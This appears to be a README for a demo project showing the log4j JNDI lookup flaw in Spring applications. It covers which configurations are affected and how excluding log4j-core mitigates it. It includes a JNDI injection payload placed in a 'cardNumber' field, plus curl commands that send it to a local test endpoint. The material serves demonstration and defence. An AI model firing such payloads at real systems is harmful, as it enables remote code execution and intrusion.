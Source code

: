 ### log4j lookup problem demonstration for spring projects

#### This issue will not affect spring projects with default configurations. Spring uses a logback by default.

#### To use log4j you must exclude 'spring-boot-starter-logging' and include 'log4j'
    dependencies {
        implementation 'org.springframework.boot:spring-boot-starter-log4j2:2.5.1'
    }
    configurations {
        all*.exclude module: 'spring-boot-starter-logging'
    }

#### Don't forget only log4j-core impacted with this issue. You can stop this issue by excluding 'log4j-core'. 
    configurations {
        all*.exclude module: 'log4j-core'
    }

Use next method for investigations.

http://localhost:8080/api/infected-method
cardNumber: ${jndi:ldap://localhost:8082/api/long-wait}

####Curl request example
    curl --location --request GET 'localhost:8080/api/infected-method' --form 'cardNumber=${jndi:ldap://localhost:8082/api/long-wait}'
    curl --location --request GET 'localhost:8080/api/infected-method?cardNumber=%24%7Bjndi%3Aldap%3A%2F%2Flocalhost%3A8082%2Fapi%2Flong-wait%7D'
